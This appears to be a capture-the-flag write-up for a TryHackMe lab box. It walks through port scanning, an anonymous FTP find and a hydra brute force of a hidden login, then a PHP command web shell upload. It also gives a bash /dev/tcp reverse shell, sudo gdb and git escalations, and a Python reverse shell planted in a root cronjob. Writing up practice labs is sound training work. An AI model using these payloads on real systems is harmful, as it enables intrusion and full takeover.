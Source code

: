recon
- nmap
```
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```
- gobuster: nothing interesting, just robots.txgt

- robots.txt
```
User-Agent: *
Disallow : /admin-dir

I told d4rckh we should hide our things deep.
```
visite `/admin-dir` you will find 2 files. `userid` which contain username and `credentials.txt` which contain passwords. this can be useful for brute forcing.

- ftp: Anonymous
```
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ...
-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
226 Directory send OK.
ftp> cd ...
250 Directory successfully changed.
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    2 ftp      ftp          4096 Jul 05 21:31 ...
226 Directory send OK.
ftp> ls ...
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            14 Jul 05 21:45 yougotgoodeyes.txt
```
grab the file. it is containt a hidden web directory!!
```
bibo318@parrot:~/THM/tartarus$ cat test.txt 
vsftpd test file
bibo318@parrot:~/THM/tartarus$ cat yougotgoodeyes.txt 
/sUp3r-______
```
`/sUp3r-______` contains a login page. Let use hydra to brute force using `userid` and `credential.txt` as username and password
```
bibo318@parrot:~/THM/tartarus$ hydra -t 64 -L userid -P credentials.txt $IP http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect"
```
user the credential obtained from hydra to log into `/sUp3r-s3cr3t/` note that you can upload files which will appreas at `/sUp3r-s3cr3t/images/uploads/`. I then try to upload a php srcipt which execute a os command base on a given argurment.
```php
<?php
echo "kurohat was herer\n"; system($_REQUEST['cmd']);
?>
```
now when I visite `sUp3r-s3cr3t/images/uploads/shell.php?cmd=whoami` it will return a output of `whoami`. I use it to do more recon on the server and grab user.txt.

after some recon with `whoami` and `ls /home` here is what I found
- /home: 3 directories
```
cleanup
d4rckh
thirtytwo
```
I then decided to spawn a reverse shell to make thing easy for me.
```http
GET /sUp3r-s3cr3t/images/uploads/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.11.14.220/6969+0>%261' HTTP/1.1
Host: 10.10.27.107
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.27.107/sUp3r-s3cr3t/images/uploads/
Connection: close
Cookie: PHPSESSID=7u6935nes7p327b4cgrpatqnng
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 0
```
I found a note for
```
www-data@ubuntu-xenial:/home$ cat thirtytwo/note.txt
cat thirtytwo/note.txt
Hey 32, the other day you were unable to clone my github repository. 
Now you can use git. Took a while to fix it but now its good :)

~D4rckh
```
more digging and I found that there is a cronjob running as root. We might be able to use it to gain root access.
```
www-data@ubuntu-xenial:/home$ cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
< /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"   

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

*/2 *   * * *   root    python /home/d4rckh/cleanup.py
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```
cronjob is running as root, executing `/home/d4rckh/cleanup.py` which we dont have permission to write it since we still are a `www-data` user. I spawn tty shell so that I can runs more command:
```
www-data@ubuntu-xenial:/home/d4rckh$ python -c 'import pty;pty.spawn("/bin/bash");'
<e/d4rckh$ python -c 'import pty;pty.spawn("/bin/bash");'                    
www-data@ubuntu-xenial:/home/d4rckh$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu-xenial:
    (thirtytwo) NOPASSWD: /var/www/gdb
```
okey, seem like we can execute `/var/www/gdb` as `thirtytwo`. Check GTFObin for more infor
```
$ sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit # privesc shell as thirtytwo
```
as you can see, we are now `thirtytwo`
```
$ whoami
whoami
thirtytwo
$ sudo -l
sudo -l
Matching Defaults entries for thirtytwo on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User thirtytwo may run the following commands on ubuntu-xenial:
    (d4rckh) NOPASSWD: /usr/bin/git
```
okey same old story, check `git` on **GTFObins** to learn how to privesc using `git`
```
$ sudo -u d4rckh /usr/bin/git help config
sudo -u d4rckh /usr/bin/git help config
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/bash
!/bin/bash
d4rckh@ubuntu-xenial:/var/www/html/sUp3r-s3cr3t/images/uploads$
```
now we are d4rckh!! as mentioned before, there is a corn job run as root which executing `cleanup.py`. Now let modify `cleanup.py` and make it spawn shell to our kali. Add the following python script to `cleanup.py`.
```py
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.11.14.220",9696));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```
BAM !! reverse shell should be up in 30 sec. grab root flag !!